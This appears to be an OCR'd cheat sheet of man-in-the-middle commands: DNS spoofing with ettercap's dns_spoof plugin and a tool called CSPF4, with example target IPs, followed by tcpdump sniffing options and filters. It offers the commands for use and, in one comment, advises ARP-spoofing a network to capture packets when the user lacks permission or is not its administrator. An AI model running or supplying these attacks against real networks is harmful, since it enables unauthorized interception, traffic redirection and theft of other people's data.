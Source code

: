 
# run ettercap useing dns_spoof plugin 

2) - ettercap -TQ -i <interface> -M <Method:subMethod>  -P dns_spoof "/ipofthetargets//" "/ipofthetargets//"
	
----------------------------------------------------------

3)- with CSPF4 :
	
** inside CSPF4 Session run: **

	* dnsspf target1 target2 dns_to_spoof
	* dnsspf target1 target2 all # to spoof all dns_queries
		
	
# Example:
*		dnsspf 192.168.1.1 192.168.1.125 google.com
*		dnsspf 192.168.1.1 192.168.1.125 all

-------------------------------------------------------------------
# Sniffing 

1) Sniffing with tcpdump 

# arpspoof your Network if you don,t have  permession to capture packets or you aren,t a network admin

* tcpdump -i <interface> "filter"

* "filter" : you can use any wireshark or tshark filter 

=========================================================================
	
# Option :

--count|-c count : count   and number of packet to capture
-r file : read from pcap file 
-w file : write to pcap file
-v[vvvv] : versposing  and decodeing and increase packet info 
-X : Show the packet’s contents in both hex and ASCII.
-A : Show th packet’s contents in ASCII

Example :
	
*	tcpdump -i wlan0 "host 192.168.1.1 and port 53" -vv
*	tcpdump -i wlan0 "src 192.168.1.2 and dst 192.168.1.1 and port 80" -A -c 100



# you can learn to use more about filters from here :
